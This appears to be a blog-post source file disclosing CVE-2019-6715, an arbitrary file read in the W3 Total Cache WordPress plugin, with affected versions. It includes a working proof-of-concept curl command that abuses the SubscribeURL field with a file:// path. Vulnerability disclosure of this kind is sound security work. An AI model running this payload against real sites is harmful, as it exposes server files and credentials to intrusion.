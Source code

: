 ```yaml
---
layout: post
title: "CVE 2019-6715"
date: 2019-03-14 15:53:06 +0700
comments: false
---
```


* CVE Mitre [CVE 2019-6715](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-6715).
* See it [in action on my own blog](https://vinhjaxt.github.io/).

#CVE 2019-6715

Description:
pub/sns.php in the W3 Total Cache plugin before 0.9.4 for WordPress
allows remote attackers to read arbitrary files via the SubscribeURL field in SubscriptionConfirmation JSON data.

Vulnerability Type:
arbitrary file read

Vendor of Product:
Wordpress W3 Total Cache plugin by Frederick Townes

Affected Product Code Base:
W3 Total Cache - 0.9.2.6 - 0.9.3, fixed in 0.9.4

Affected Component:
Affected source code file: w3-total-cache/pub/sns.php


#Exploit - PoC:

`curl -X PUT --data '{"Type":"SubscriptionConfirmation","Message":"","SubscribeURL":"file://file_path"}' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.80 Safari/537.36' http://victim.com/wp-content/plugins/w3-total-cache/pub/sns.php`

============

![](/images/cve-2019-6715.png)

![](/images/exploit-cve-2019-6715.png)

